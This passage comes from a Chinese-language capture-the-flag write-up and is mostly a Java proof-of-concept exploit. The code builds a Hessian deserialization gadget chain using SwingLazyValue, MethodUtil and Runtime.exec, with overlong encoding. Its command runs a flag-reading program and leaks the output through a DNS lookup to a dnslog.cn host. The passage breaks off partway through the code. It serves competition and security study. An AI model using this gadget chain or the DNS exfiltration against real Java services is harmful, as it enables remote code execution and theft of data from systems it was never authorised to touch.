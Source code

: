 然后就直接构造命令执行的利用链了，下面这个是最终返回flag的poc，途中也卡了好久，发现只能dns出网，打ldap半天没得到结果，应该是tcp不能出网，而题目源码有给了一个readflag程序的利用方式，果断想到利用dns命令执行带出的方式：

```
package org.example;

import com.caucho.hessian.io.Hessian2Input;
import sun.swing.SwingLazyValue;
import javax.activation.MimeTypeParameterList;
import javax.swing.*;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.Base64;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.FileOutputStream;
public class hessianDemo2 {
    public static void main(String[] args) throws Exception {
        UIDefaults uiDefaults = new UIDefaults();
        Method invokeMethod = Class.forName("sun.reflect.misc.MethodUtil").getDeclaredMethod("invoke", Method.class, Object.class, Object[].class);
        Method exec = Class.forName("java.lang.Runtime").getDeclaredMethod("exec", String[].class);
        String[] cmdArray =  {"sh","-c","ping -c 4 `../readflag give me the flag`.gvb0t2.dnslog.cn"};
        SwingLazyValue slz = new SwingLazyValue("sun.reflect.misc.MethodUtil", "invoke", new Object[]{invokeMethod, new Object(), new Object[]{exec, Runtime.getRuntime(), new Object[]{cmdArray}}});

        uiDefaults.put("xxx", slz);
        MimeTypeParameterList mimeTypeParameterList = new MimeTypeParameterList();

        setFieldValue(mimeTypeParameterList,"parameters",uiDefaults);

        byte[] data_overlong_safe = hessian2SerializeWithOverlongEncoding(mimeTypeParameterList);
        String base64 = Base64.getEncoder().encodeToString(data_overlong_safe);
        System.out.println(base64);

        try (FileOutputStream fos = new FileOutputStream("SwingLazyValue.ser")) {
            fos.write(data_overlong_safe);
        }
    }


    public static byte[] hessian2SerializeWithOverlongEncoding(Object o) throws Exception {
        ByteArrayOutputStream bao = new ByteArrayOutputStream();
        Hessian2OutputWithOverlongEncoding output = new Hessian2OutputWithOverlongEncoding(bao);
        // Allow serialization of non-serializable types if needed, though JdbcRowSetImpl is Serializable
        output.getSerializerFactory().setAllowNonSerializable(true);
        bao.write(67);
        output.writeObject(o);
        output.flushBuffer();
        return bao.toByteArray();
    }

    public static Object hessian2Unserialize(byte[] data) throws Exception {
        Hessian2Input input = new Hessian2Input(new ByteArrayInputStream(data));
        Object obj = input.readObject();
        return obj;
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
```